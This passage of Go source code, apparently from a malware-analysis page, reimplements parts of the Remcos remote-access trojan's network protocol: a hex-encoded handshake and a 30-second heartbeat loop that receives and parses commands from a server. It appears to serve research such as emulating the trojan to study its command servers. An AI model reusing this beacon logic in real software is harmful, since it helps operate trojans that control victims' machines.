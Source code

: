 ```plain
}
```

-   remcos\_xx/initconnect.go

```plain
package remcos_xx

import (
    "encoding/hex"
    "fmt"
    "net"
)

func Initconnect(conn net.Conn) {
    sendbuf, _ := hex.DecodeString("01000000307c1e1e1f7c3330")
    Sendbuf(conn, sendbuf)

    _, err := RecvBuf(conn)
    if err != nil {
        fmt.Println(err.Error())
        panic(0)
    }

    sendbuf, _ = hex.DecodeString("11000000")
    Sendbuf(conn, sendbuf)

    _, err = RecvBuf(conn)
    if err != nil {
        fmt.Println(err.Error())
        panic(0)
    }
}
```

-   remcos\_xx/heartbeat.go

```plain
package remcos_xx

import (
    "encoding/hex"
    "fmt"
    "net"
    "time"
)

func Heartbeat(conn net.Conn) {
    for {
        sendbuf, _ := hex.DecodeString("01000000307c1e1e1f7c3330")
        Sendbuf(conn, sendbuf)

        recvdata, err := RecvBuf(conn)
        if err != nil {
            fmt.Println(err.Error())
            panic(0)
        }
        ParseCommand(recvdata[:4])
        time.Sleep(30 * time.Second)
    }
}
```
